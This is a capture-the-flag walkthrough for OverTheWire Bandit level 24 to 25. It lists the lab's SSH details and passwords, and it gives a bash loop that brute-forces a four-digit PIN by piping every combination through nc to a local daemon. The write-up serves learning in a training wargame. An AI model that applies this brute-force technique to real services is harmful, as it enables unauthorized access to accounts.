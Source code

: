 # Bandit Level 25

## 🧩 Objective

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

---

## 🧪 Credentials

- **Host**: `bandit24.labs.overthewire.org`
- **Port**: `2220`
- **Password**: `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`
---

## 🖥️ Steps

1. Open your terminal.
2. Connect to the Bandit server via SSH:

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```
3. let's write the command together. this simple command brute forces all the 4 numeric passcodes. The `|` symbol pipes the output into the localhost.

```
bandit24@bandit:~$ for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
.
.
.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
---
[← Level 24](./leve24.md) | [Level 26→](./level26.md)
